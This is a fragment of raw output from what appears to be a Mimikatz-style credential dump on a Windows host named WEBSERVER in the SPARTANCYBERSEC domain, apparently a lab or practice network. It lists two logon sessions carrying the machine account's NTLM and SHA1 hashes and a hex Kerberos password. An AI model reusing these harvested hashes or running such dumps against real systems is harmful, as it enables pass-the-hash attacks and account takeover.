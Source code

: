             cloudap :

    Authentication Id : 0 ; 508492 (00000000:0007c24c)
    Session           : Interactive from 2
    User Name         : UMFD-2
    Domain            : Font Driver Host
    Logon Server      : (null)
    Logon Time        : 11/6/2023 12:17:33 AM
    SID               : S-1-5-96-0-2
            msv :
             [00000003] Primary
             * Username : WEBSERVER$
             * Domain   : SPARTANCYBERSEC
             * NTLM     : 449c5f226aff8a2af42ac07ebaf901cb
             * SHA1     : 8af38efaf6e0c5c701c5d793438fbcdf4815777a
            tspkg :
            wdigest :
             * Username : WEBSERVER$
             * Domain   : SPARTANCYBERSEC
             * Password : (null)
            kerberos :
             * Username : WEBSERVER$
             * Domain   : spartancybersec.corp
             * Password : 34 f7 2c a2 fa 00 56 a8 2a bc a7 ad d3 22 c9 cf dc 8c fe f8 87 ca 51 22 44 fb 80 b4 39 22 31 03 c1 bd 32 46 81 65 98 f4 fc c2 b8 22 fc 84 7f c3 81 fa 69 8d 77 d2 ed e9 57 b4 51 19 4b 1a 94 04 6c fc 1c 42 03 e6 1b 0a e6 90 61 40 10 9e a8 95 33 69 fa f5 65 f6 67 12 15 ae fe b7 64 ce d7 58 27 c7 62 7d 5d 79 40 73 c9 b9 32 2d 7d b1 82 5d ca b5 f2 ec 28 33 ea 00 5a 83 b1 ac b6 cc 63 9b 4a 3f ab 2e f2 41 c1 3c a4 a1 8e 84 51 af 8e a7 76 f0 68 13 e4 23 be 79 32 ff 7a 6a c7 34 ac c5 44 2a c8 91 a1 76 b5 04 c5 31 ad c5 ee 13 f4 96 fa 0f 25 86 5c 34 6e f7 c3 9e e9 1e c6 8b 5c 6a 71 72 dd 8f c2 d2 c5 91 1a c9 e1 3a ac 89 24 ea ef 08 66 30 50 b1 bd d6 39 8e 9b d7 0a 5d a0 e4 b1 21 7c 20 5b dd a1 69 ce 63 d1 70 15 e9 11 f1
            ssp :
            credman :
            cloudap :

    Authentication Id : 0 ; 45151 (00000000:0000b05f)
    Session           : Interactive from 1
    User Name         : DWM-1
    Domain            : Window Manager
    Logon Server      : (null)
    Logon Time        : 11/6/2023 12:16:14 AM
    SID               : S-1-5-90-0-1
            msv :
             [00000003] Primary
             * Username : WEBSERVER$
             * Domain   : SPARTANCYBERSEC
             * NTLM     : 449c5f226aff8a2af42ac07ebaf901cb
             * SHA1     : 8af38efaf6e0c5c701c5d793438fbcdf4815777a
            tspkg :
            wdigest :
             * Username : WEBSERVER$
             * Domain   : SPARTANCYBERSEC
             * Password : (null)
            kerberos :
             * Username : WEBSERVER$
             * Domain   : spartancybersec.corp
             * Password : 34 f7 2c a2 fa 00 56 a8 2a bc a7 ad d3 22 c9 cf dc 8c fe f8 87 ca 51 22 44 fb 80 b4 39 22 31 03 c1 bd 32 46 81 65 98 f4 fc c2 b8 22 fc 84 7f c3 81 fa 69 8d 77 d2 ed e9 57 b4 51 19 4b 1a 94 04 6c fc 1c 42 03 e6 1b 0a e6 90 61 40 10 9e a8 95 33 69 fa f5 65 f6 67 12 15 ae fe b7 64 ce d7 58 27 c7 62 7d 5d 79 40 73 c9 b9 32 2d 7d b1 82 5d ca b5 f2 ec 28 33 ea 00 5a 83 b1 ac b6 cc 63 9b 4a 3f ab 2e f2 41 c1 3c a4 a1 8e 84 51 af 8e a7 76 f0 68 13 e4 23 be 79 32 ff 7a 6a c7 34 ac c5 44 2a c8 91 a1 76 b5 04 c5 31 ad c5 ee 13 f4 96 fa 0f 25 86 5c 34 6e f7 c3 9e e9 1e c6 8b 5c 6a 71 72 dd 8f c2 d2 c5 91 1a c9 e1 3a ac 89 24 ea ef 08 66 30 50 b1 bd d6 39 8e 9b d7 0a 5d a0 e4 b1 21 7c 20 5b dd a1 69 ce 63 d1 70 15 e9 11 f1